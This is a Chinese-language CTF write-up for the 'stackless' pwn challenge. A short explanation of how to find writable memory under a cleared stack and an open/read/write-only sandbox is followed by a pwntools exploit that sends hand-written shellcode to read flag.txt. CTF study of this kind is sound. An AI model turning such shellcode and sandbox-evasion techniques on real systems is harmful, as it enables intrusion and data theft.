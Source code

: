 # stackless

题目任然是给了源码，发现是一个执行shellcode程序，但是出题人将shellcode放到了一段随机的只读内存中，执行shellcode前还将所有寄存器和栈清空了，导致栈这个可写内存端没有了。并且开启了沙箱，只允许orw。但是orw又涉及到可写内存，由于没有泄露地址的地方，所以程序中得不到可写内存。问题就在如何获取一段可写内存了，可以看到内存段存在可写内存有bss、heap、stack段，这里只能用遍历内存的方法了。从rip开始也可以从0x7f0000000000，间隔0x2000，开始搜寻，接下来就是碰运气，在60秒之内能找到可写内存了。

## exp

```python
# -*- coding: UTF-8 -*-
from pwn import *


context.log_level = 'debug'
context.terminal = ["/bin/tmux","sp","-h"]
context(arch='amd64',os='linux')
io = remote('challenge.nahamcon.com', 31986)
# libc = ELF('./libc-2.31.so')
# io = process('stackless')
#libc = ELF('./libc-2.31.so')

l64 = lambda      :u64(io.recvuntil("\x7f")[-6:].ljust(8,"\x00"))
l32 = lambda      :u32(io.recvuntil("\xf7")[-4:].ljust(4,"\x00"))
rl = lambda	a=False		: io.recvline(a)
ru = lambda a,b=True	: io.recvuntil(a,b)
rn = lambda x			: io.recvn(x)
sn = lambda x			: io.send(x)
sl = lambda x			: io.sendline(x)
sa = lambda a,b			: io.sendafter(a,b)
sla = lambda a,b		: io.sendlineafter(a,b)
irt = lambda			: io.interactive()
dbg = lambda text=None  : gdb.attach(io, text)
lg = lambda s			: log.info('\033[1;31;40m %s --> 0x%x \033[0m' % (s, eval(s)))
uu32 = lambda data		: u32(data.ljust(4, '\x00'))
uu64 = lambda data		: u64(data.ljust(8, '\x00'))
ur64 = lambda data		: u64(data.rjust(8, '\x00'))


pay = asm('''

lea rdi,[rip+0x1f5-7]
mov rsi,0
mov rdx,0
mov rax,2
syscall
mov r9,rax
/*search write memory*/
mov r8,0x1
lea r15,0x7ff000000000
loop:
add r8,0x10000
add r15,r8
/*read()*/
mov rdi,r9
mov rsi,r15
mov rdx,1024
mov rax,0
syscall
mov r12,rax
shr rax,32
cmp rax,0
jnz loop
/*write()*/
mov rdi,1
mov rsi,r15
mov rdx,r12
mov rax,1
syscall
/*exit*/
mov rdi,0
mov rax,60
syscall 

''')
# dbg()
pay = pay.ljust(0x200-7-4,'\x00')
pay += './flag.txt\x00'
sla('length\n',str(len(pay)))
sla('Shellcode\n',pay)
irt()

```
